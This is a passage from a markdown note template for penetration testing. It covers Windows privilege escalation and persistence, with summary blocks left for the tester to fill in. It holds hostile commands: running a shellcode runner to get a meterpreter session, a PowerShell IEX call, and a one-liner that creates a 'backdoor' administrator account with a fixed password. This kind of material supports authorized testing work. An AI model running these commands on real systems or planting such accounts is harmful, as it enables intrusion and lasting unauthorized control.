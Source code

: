 ```ad-seealso

> Set command variable to execute your shellcode runner's location

~~~bash
set cmd 'C:\Windows\Tasks\NR.exe -epi'
~~~

~~~bash
run
~~~

> Set command variable to IEX your shellcode runner

~~~bash
set cmd 'powershell IEX(...)'; run
~~~

> You will receive a new meterpreter session, interact with it.
```

> At this point if you have found a viable vector, exploit it and document it in the block below. 

```ad-summary
title:Local Privilege Escalation Summary

Privilege escalation was performed on HOSTNAME via XXX.
___
**COMMANDS, NOTES, SCREENSHOTS HERE**
___
```

> If you haven't move on, you probably have powerful privileges on the domain or already found viable credentials.

## Persistence 

> You can create a backdoor user, or add an already compromised user to localgroup administrators, or more intricate attacks.
> Keep track of this backdoor on your tracker note.

```ad-seealso
title: Persistence Notes
collapse:yes

[Window’s Persistence – Manual Techniques - Juggernaut-Sec](https://juggernaut-sec.com/windows-persistence-manual-techniques/)
~~~dataview
list from #windows 
or #activedirectory 
and #persistence 
~~~
```

~~~ad-note
title:Persistence Commands

*Backdoor User Windows Persistence*

```powershell
net user backdoor Password123! /add; net localgroup administrators backdoor /add
```
~~~
